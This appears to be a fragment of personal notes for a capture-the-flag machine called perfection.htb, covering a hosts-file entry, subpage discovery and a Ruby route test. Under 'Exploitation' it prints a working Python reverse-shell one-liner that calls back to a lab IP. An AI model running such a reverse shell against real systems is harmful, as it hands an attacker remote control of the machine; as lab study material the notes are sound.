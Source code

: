 #### Hosts

sudo nano /etc/hosts

* \<IP> perfection.htb

### Weaponisation

#### Subpages

* /about
* /weigted-grade
  * table form with submission possibility
* /admin
  * try this:
    * get '/admin' do "Hello World" end
  * same output for any subpage it doesnt know

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

#### RS command

* revshells.com
  * \<IP> \<PORT> bash
    * ```bash
      python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
      ```
